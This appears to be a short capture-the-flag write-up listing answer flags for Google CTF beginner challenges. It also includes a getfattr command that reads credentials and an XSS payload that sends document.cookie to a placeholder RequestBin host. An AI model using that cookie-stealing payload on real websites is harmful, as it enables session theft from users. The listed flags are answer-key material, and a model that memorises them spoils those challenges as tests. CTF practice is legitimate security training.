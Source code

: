 ### 1. Space-Time coordinates
`CTF{welcome_to_googlectf}`

### 2. Satellite
`CTF{4efcc72090af28fd33a2118985541f92e793477f}`

### 3. Home
>cmd:- <p >getfattr --only-values -n user.FILE0 credentials.txt > output

`CTF{congratsyoufoundmycreds}`

### 4. Work Computer challenge
`fold` command

CTF{4ll_D474_5h4ll_B3_Fr33}                   


### 5. Agriculture
>cmd:- <p> <script>document.location='REQUESTBIN_LINK'+document.cookie</script>

`CTF{8aaa2f34b392b415601804c2f5f0f24e}`


### 6. Stop GAN
`CTF{Why_does_cauliflower_threaten_us}`


### 7* FriendSpaceBook
>  http://emoji-t0anaxnr3nacpt4na.web.ctfcompetition.com/humans_and_cauliflowers_network/ 

`CTF{Peace_from_Cauli!}`


### 8* Drive to the target

`CTF{Who_is_Tardis_Ormandy}`		         


### Extras:-
`Ad:- CTF{9e796ca74932912c216a1cd00c25c84fae00e139}`













